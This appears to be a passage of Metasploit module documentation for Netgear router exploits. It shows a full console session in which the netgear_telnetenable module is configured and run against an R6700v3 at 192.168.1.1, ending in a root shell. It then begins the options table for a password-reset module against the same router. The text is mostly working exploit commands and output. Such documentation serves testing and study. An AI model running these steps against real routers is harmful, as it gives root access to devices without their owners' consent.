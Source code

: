 Browsed to admin page and changed password to `testing123`, then in a new `msfconsole`
session running as `root`, entered the following commands:

```
    msf5 > use exploit/linux/telnet/netgear_telnetenable
    [*] No payload configured, defaulting to cmd/unix/interact
    msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
    username => admin
    msf5 exploit(linux/telnet/netgear_telnetenable) > set password testing123
    password => testing123
    msf5 exploit(linux/telnet/netgear_telnetenable) > set MAC D56C89FC94C9
    MAC => D56C89FC94C9
    msf5 exploit(linux/telnet/netgear_telnetenable) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf5 exploit(linux/telnet/netgear_telnetenable) > exploit
    
    [+] 192.168.1.1:23 - Detected telnetenabled on UDP
    [+] 192.168.1.1:23 - Using creds admin:testing123
    [*] 192.168.1.1:23 - Generating magic packet
    [*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
    [*] 192.168.1.1:23 - Sending magic packet
    [*] 192.168.1.1:23 - Disconnecting from telnetenabled
    [*] 192.168.1.1:23 - Waiting for telnetd
    [*] 192.168.1.1:23 - Connecting to telnetd
    [*] Found shell.
    [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-30 15:57:33 -0500
    
    
    
    Login incorrect
     login: admin
    admin
    Password: testing123
    
    
    
    BusyBox v1.7.2 (2019-10-19 12:12:12 CST) built-in shell (ash)
    Enter 'help' for a list of built-in commands.
    
    # id
    id
    uid=0(admin) gid=0(root)
    # uname -a
    uname -a
    Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Sat Oct 19 11:17:27 CST 2019 armv7l unknown
    #
```

### Netgear R6700v3 firmware version V1.0.0.4.82_10.0.57

```
    msf5 > use auxiliary/admin/http/netgear_r6700_pass_reset
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > show options
    
    Module options (auxiliary/admin/http/netgear_r6700_pass_reset):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    5000             yes       The target port (TCP)
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       VHOST                     no        HTTP server virtual host
```